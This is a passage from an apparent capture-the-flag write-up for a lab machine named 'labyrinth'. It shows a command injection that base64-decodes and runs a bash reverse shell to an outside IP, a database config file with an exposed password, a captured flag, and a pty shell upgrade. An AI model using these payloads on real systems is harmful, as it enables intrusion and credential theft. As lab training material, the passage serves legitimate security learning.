 Then injecion...

we decode it on server side and write it to shell.sh

`` `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjIyNi4yMDMvMjMxMSAwPiYx | base64 -d | tee /tmp/shell.sh` ``

```
bash -i >& /dev/tcp/10.8.226.203/2311 0>&1
```

Next we run that shell
`` `/bin/bash /tmp/shell.sh` ``

And we are in

`cat dbConnect.php`

```
<?php

$servername = "localhost";
$db = "labyrinth";
$usr = "root";
$pwd = "";
//$pwd = "bQXHS5KnfGAHaa383nFjT42AUMyWb";
try {
	$conn = new PDO("mysql:host=$servername;dbname=$db", $usr, $pwd);
	$conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);


} catch (PDOException $e) {
	die();
}

?>
```

lol no password That might always be good to know

```
daemon@labyrinth:/home/user$ cat flag.txt
cat flag.txt

flag #3
fla9{the_minotaur_was_just_a_hipster}
```

## Privilege Escalation

Now privesc?

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
bash: /root/.bashrc: Permission denied
```
